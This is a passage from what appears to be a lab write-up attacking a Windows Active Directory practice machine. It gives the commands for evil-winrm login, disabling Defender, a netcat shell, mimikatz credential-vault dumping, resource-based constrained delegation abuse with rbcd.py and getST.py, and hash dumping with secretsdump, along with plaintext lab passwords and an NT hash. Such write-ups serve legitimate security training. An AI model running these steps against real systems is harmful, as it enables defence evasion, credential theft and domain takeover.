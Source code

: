 ```bash
evil-winrm -i 10.10.132.134 -u 'administrator' -p 'H447.++h6g5}xi'
```

<img src="https://i.imgur.com/ZyWKUjF.png"/>

Disabling the defender with `Set-MpPreference -DisableRealtimeMonitoring $true`

<img src="https://i.imgur.com/1UmVb5L.png"/>

Uploading netcat and getting a shell again as evil-winrm was causing an issue with mimikatz

<img src="https://i.imgur.com/6YVPhIz.png"/>

From the cache, we see `Georgia.Price`

<img src="https://i.imgur.com/1dHedue.png"/>

With `vault::cred /patch` we can list the credentials from the credential vault

<img src="https://i.imgur.com/6UwkZM1.png"/>

Going back to bloodhound, this user also has `GenericAll` on `WS01`

<img src="https://i.imgur.com/xifwMRO.png"/>

We know that there's no machine quota available but we do have access to MS01, we can add that machine in WS01's `msDS-AllowedToActOnBehalfOfOtherIdentity` property, for this we need to get the NThash of MS01

<img src="https://i.imgur.com/9OjTlkp.png"/>
Editing the `msDS-AllowedToActOnBehalfOfOtherIdentity` with `rbcd.py` from impacket

```bash
rbcd.py -action write -delegate-to "WS01$" -delegate-from "MS01$" -dc-ip 10.10.188.197 "Reflection/Georgia.Price:DBl+5MPkpJg5id"
```

<img src="https://i.imgur.com/nyQJnGE.png"/>

After adding the property, we can impersonate the administrator ticket on WS01 with `getST.py`

```bash
getST.py -spn 'cifs/WS01.reflection.vl' -impersonate Administrator -dc-ip 10.10.188.197 'Reflection/MS01$' -hashes ':6e77d4ac157a47c5581681b8f865677e'
```

<img src="https://i.imgur.com/0yqjKCA.png"/>

<img src="https://i.imgur.com/kaZrA7Q.png"/>

And now we can dump hashes from WS01

```bash
 secretsdump.py administrator@WS01.reflection.vl -k -no-pass
```
